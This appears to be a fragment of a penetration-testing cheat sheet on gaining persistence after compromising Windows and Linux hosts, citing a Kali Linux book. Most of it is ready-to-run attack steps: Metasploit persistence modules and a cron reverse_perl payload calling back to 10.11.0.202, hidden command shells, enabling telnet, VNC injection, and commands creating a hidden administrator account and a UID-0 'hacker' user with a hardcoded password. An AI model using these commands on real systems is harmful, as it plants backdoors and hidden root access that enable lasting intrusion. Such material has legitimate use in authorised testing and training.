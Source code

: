 ```
checksec

shellcode generate x86/linux exec


```




### Windows exploitation tools



## Persistance

### Windows Persistance

Persistance for windows

1.	run persistence -U -i 5 -p 443 -r 10.11.0.202

2.	run persistence -U -i 5 -p 666 -r 10.11.0.202

3.	set  LPORT 443

4.	exploit

or

•	create users and hide them

•	create backdoors in dll files

•	create a command hidden promt

MSF> execute -H -f cmd -i

•	Create a service account

net user Service_Account password /ADD

net localgroup administrators Service_Account /ADD

•	enable telnet service

meterpreter> run gettelnet -e

### VNC INJECT

Meterpreter VNCINJECT module

#### Linux Persistance

1.	persistance for linux
2.	use exploit/linux/local/cron_persistence
3.	set session 1
4.	set payload cmd/unix/reverse_perl
5.	set LHOST 10.11.0.202
6.	set LPORT 444
7.	run

useradd -o -u 0 hacker  -G root  -d /home/hacker -p P@ssw0rd123!  -m

#### NETCAT AS PERSISTANCE

REF: Mastering Kali Linux for Advanced penetration testing
